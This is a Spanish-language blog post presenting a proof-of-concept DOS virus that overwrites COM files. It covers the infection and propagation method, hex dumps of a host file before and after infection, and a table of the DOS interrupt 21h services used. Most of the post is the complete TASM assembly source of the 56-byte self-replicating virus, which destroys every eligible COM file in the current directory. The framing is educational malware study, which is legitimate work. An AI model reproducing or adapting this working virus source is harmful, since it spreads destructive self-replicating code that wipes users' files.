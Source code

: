 ```yaml
---
categories: [Malware, Programación]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```

<style>
  pre.ovf span { color: #000; }
  pre.ovf span:first-of-type { line-height:200% }
  pre.ovf span.vs { color: #ff0000 }
</style>

Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

  {% img infection.png | {"width":"350"} %}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución

  {% img flow.png | {"width":"350"} %}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span>B4 09 BA 39 01 CD 21 90</span>  <span>´.º9.Í!.</span>
<span>0x0008</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0010</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0018</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0020</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0028</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0030</span>  <span>90 90 90 90 90 B4 00 CD</span>  <span>.....´.Í</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span class="vs">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vs">´N3Éº2.Í</span>
<span>0x0008</span>  <span class="vs">21 73 08 EB 21 B4 4F CD</span>  <span class="vs">!s.ë!´OÍ</span>
<span>0x0010</span>  <span class="vs">21 72 1B B4 3D B0 02 BA</span>  <span class="vs">!r.´=°.º</span>
<span>0x0018</span>  <span class="vs">9E 00 CD 21 8B D8 B4 40</span>  <span class="vs">ž.Í!‹Ø´@</span>
<span>0x0020</span>  <span class="vs">B9 38 00 BA 00 01 CD 21</span>  <span class="vs">¹8.º..Í!</span>
<span>0x0028</span>  <span class="vs">B4 3E CD 21 EB DF B4 00</span>  <span class="vs">´>Í!ëß´.</span>
<span>0x0030</span>  <span class="vs">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vs">Í!*.com.</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org     100h

start:    
    mov     ah, 4Eh               ; | AH = 4Eh 
    xor     cx, cx                ; | CX = 0, archivos normales
    lea     dx, search_str        ; | DS:DX -> "*.COM"
    int     21h                   ; |_DOS API - Buscar primer archivo

    jnc     infect_file           ; archivo encontrado
    jmp     exit                  ; no hay archivo

find_next:    
    mov     ah, 4Fh               ; | AH = 4Fh  
    int     21h                   ; |_DOS API - Buscar siguiente archivo 

    jc      exit                  ; no hay archivo

infect_file:    
    mov     ah, 3Dh               ; | AH = 3Dh 
    mov     al, 2                 ; | AL = 2, lectura y escritura
    mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
    int     21h                   ; |_DOS API - Abrir archivo existente

    mov     bx, ax                ; | BX = handle del archivo 
    mov     ah, 40h               ; | AH = 40h
    mov     cx, virus_size        ; | CX = tamaño del virus
    lea     dx, start             ; | DS:DX -> inicio del código viral
    int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

    mov     ah, 3Eh               ; | AH = 3Eh 
    int     21h                   ; |_DOS API - Cerrar archivo

    jmp     find_next             ; buscar siguiente

exit:    
    mov     ah, 00h               ; | AH = 00h
    int     21h                   ; |_DOS API - Retornar a DOS

search_str    db   "*.com", 00h   ; nombre comodín de búsqueda
virus_size    equ  ($ - start)    ; tamaño del virus

virus ends
end start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 